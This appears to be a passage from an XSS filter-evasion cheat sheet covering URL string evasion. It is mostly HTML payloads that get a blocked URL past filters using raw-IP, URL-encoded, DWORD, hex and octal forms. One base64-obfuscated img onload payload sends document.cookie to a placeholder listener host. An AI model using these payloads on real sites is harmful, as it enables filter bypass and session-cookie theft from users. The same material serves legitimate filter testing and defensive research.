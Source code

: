 ## URL String Evasion

Assuming `http://www.google.com/` is programmatically disallowed:

### IP Versus Hostname

```html
<a href="http://66.102.7.147/">XSS</a>
```

### URL Encoding

```html
<a href="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</a>
```

### DWORD Encoding

Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

```html
<a href="http://1113982867/">XSS</a>
```

### Hex Encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

```html
<a href="http://0x42.0x0000066.0x7.0x93/">XSS</a>
```

### Octal Encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc...:

```html
<a href="http://0102.0146.0007.00000223/">XSS</a>
```

### Base64 Encoding

```html
<img
  onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))"
/>
```

### Mixed Encoding

Let's mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:
